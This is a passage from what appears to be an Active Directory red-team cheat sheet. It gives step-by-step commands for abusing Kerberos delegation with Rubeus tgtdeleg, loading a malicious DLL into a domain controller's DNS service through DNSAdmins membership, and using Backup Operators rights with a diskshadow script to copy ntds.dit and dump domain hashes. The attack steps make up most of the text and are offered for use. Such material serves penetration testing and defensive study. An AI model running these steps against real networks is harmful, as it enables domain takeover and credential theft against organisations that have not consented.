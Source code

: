 :exclamation: In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED_TO_AUTH_FOR_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.
```
#Command on Rubeus
Rubeus.exe tgtdeleg /nowrap
```


Detailed Article:
 [Rubeus – Now With More Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)
 
### DNSAdmins Abuse

*WUT IS DIS ?: If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work.*
  
1) Enumerate the members of the DNSAdmins group:
   - PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
   - AD Module: `Get-ADGroupMember -Identiny DNSAdmins`
2) Once we found a member of this group we need to compromise it (There are many ways).
3) Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:
   ```
   #Using dnscmd:
   dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
  
   #Restart the DNS Service:
   sc \\DNSServer stop dns
   sc \\DNSServer start dns
   ```
### Abusing Active Directory-Integraded DNS
 - [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
 - [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
 - [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
### Abusing Backup Operators Group

*WUT IS DIS ?: If we manage to compromise a user account that is member of the Backup Operators 
group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, 
extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.*
  
1) Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
  
```
#Create a .txt file that will contain the shadow copy process script
Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
}

#Execute diskshadow with our script as parameter
diskshadow /s script.txt
```
